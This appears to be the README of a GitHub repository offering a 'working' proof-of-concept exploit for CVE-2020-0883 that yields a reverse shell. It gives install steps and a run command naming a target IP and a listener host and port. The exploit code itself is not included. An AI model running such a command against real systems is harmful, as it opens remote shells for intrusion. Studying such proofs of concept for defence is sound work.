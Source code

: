 # CVE-2020-0883
Working Exploit PoC (CVE-2020-0883) - Reverse Bind Shell

Tested using Python2.7

# To Install:

pip install -r requirements.txt


# To Run:

python CVE-2020-0883-POC.py 10.16.1.24 -lhost 10.1.1.1 -lport 4444
